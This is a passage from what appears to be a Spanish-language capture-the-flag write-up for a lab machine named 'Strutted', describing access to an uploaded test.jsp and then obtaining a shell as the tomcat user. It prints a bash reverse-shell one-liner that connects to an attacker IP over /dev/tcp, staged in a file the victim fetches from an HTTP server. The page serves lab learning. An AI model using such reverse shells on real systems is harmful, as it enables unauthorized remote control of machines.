 Cuando el archivo sea enviado, podremos acceder a él en el directorio raíz, navegaremos hasta `test.jsp`

![image-center](/assets/images/posts/strutted-poc-cve.png)
{: .align-center}


## Shell as `tomcat`

Intentaremos enviar una reverse shell de la forma típica, pero no podremos enviar la conexión directamente

![image-center](/assets/images/posts/strutted-poc-cve-2.png)
{: .align-center}

Usaremos un archivo donde definiremos esta misma reverse shell

> `revshell`

~~~ bash
bash -c 'bash -i >& /dev/tcp/10.10.14.212/443 0>%1'
~~~

Pondremos un servidor HTTP a la escucha y solicitaremos desde la máquina víctima el recurso `revshell`. 
